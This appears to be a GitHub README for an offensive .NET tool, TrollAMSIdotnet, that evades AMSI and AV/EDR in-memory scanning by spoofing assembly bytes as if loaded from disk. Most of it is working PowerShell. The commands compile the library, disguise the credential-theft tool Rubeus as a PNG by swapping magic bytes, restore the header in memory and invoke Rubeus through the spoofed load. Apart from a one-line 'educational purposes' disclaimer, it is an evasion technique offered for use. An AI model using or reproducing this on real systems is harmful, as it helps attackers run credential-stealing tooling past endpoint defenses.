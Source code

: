# TrollAMSIdotnet
TrollAMSI only bypasses powershell's amsi and not the CLR amsi during Assembly.Load(). Was looking for a troll way to do this but seems like already done in the most epic way possible: https://github.com/G0ldenGunSec/SharpTransactedLoad. Read his blog for full details on his ingenious approach to bypassing amsi. G0ldenGunSec's implementation uses easyhook.dll for hooking which inturn requires cody fostura. Due to the proliferated use of both libraries in offensive security projects, they have been signaturized. Decided to re-write the hooking aspect to make it opsec safer. Ended up just copy pasting code to create a single .cs file for convenience. 

**Note:** Only .cs version released, you can just compile it to an assembly and load it (refer to trollAMSI) 

## Why is this technique so powerful? (i.e works on many powerful AV/EDR)
Because even if you bypass amsi, when you do any sort of assembly.load, the byte array is scanned during virtualalloc, etc by the AV/EDR. This spoofs a byte array to appear on disk and the AV/EDR will not re-scan the byte array due to unnecessary overhead, since it is already assumed to be scanned when on disk. 

![Image](https://github.com/user-attachments/assets/c893ef11-20a5-455a-a62c-1d6a717884fe)
## Usage Trollamsidotnet.cs
```
#First download TrollAmsiDOTNET.cs and dog.png (taken from flangvik/SharpCollection nightly build, you can sha1 the bytes before loading to check)

C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe /nologo /optimize /out:TrollAmsiDOTNET.dll /target:library TrollAmsiDOTNET.cs > $null
$MZHeader = [byte[]](0x4D, 0x5A, 0x90, 0x00, 0x03, 0x00, 0x00, 0x00)
$fileBytes = [System.IO.File]::ReadAllBytes("C:\troll\dog.png")
for ($i = 0; $i -lt 8; $i++) {$fileBytes[$i] = $MZHeader[$i] }
[System.Reflection.Assembly]::Load([System.IO.File]::ReadAllBytes("C:\troll\TrollAmsiDOTNET.dll")) > $null
#[string[]]$myargs = "triage","/consoleoutfile:C:\troll\hehe.txt"
[string[]]$myargs = "triage"
$entryPoint = ([TrollAmsiDOTNET]::SpoofFileLoad($fileBytes,"Rubeus.exe")).EntryPoint
$entryPoint.Invoke($null, (,$myargs))

```
## Usage Trollamsidotnet2.cs
```
#This is a more generic library for Trollamsidotnet that works spoofs any files/path (not just assemblies) 
#Any attempt to read from <path> will now read the $filebytes, so LoadFrom(<path>) works as well

C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe /nologo /optimize /out:TrollAmsiDOTNET2.dll /target:library TrollAmsiDOTNET2.cs > $null
$MZHeader = [byte[]](0x4D, 0x5A, 0x90, 0x00, 0x03, 0x00, 0x00, 0x00)
$fileBytes = [System.IO.File]::ReadAllBytes("C:\troll\dog.png")
for ($i = 0; $i -lt 8; $i++) {$fileBytes[$i] = $MZHeader[$i] }
$path = "c:\users\admin\desktop\blah.txt"
[System.Reflection.Assembly]::Load([System.IO.File]::ReadAllBytes("C:\troll\TrollAmsiDOTNET2.dll")) > $null
[TrollAmsiDOTNET2]::SpoofFileOnDisk($path, $fileBytes)

#Do **standard** loading of assembly with LoadFrom and invoke entrypoint
$entryPoint = ([System.Reflection.Assembly]::LoadFrom($path)).EntryPoint
[string[]]$myargs = "triage"
$entryPoint.Invoke($null, (,$myargs))

```

## Code to change MZ header to PNG header 
```
$infile = "C:\troll\Rubeus.exe"
$outfile = "C:\troll\dog.png"
$pngMagicBytes = [byte[]](0x89, 0x50, 0x4E, 0x47, 0x0D, 0x0A, 0x1A, 0x0A)
$fileBytes = [System.IO.File]::ReadAllBytes($infile)
for ($i = 0; $i -lt 8; $i++) {$fileBytes[$i] = $pngMagicBytes[$i] }
[System.IO.File]::WriteAllBytes($outfile, $fileBytes)
```

## Disclaimer
Should only be used for educational purposes!
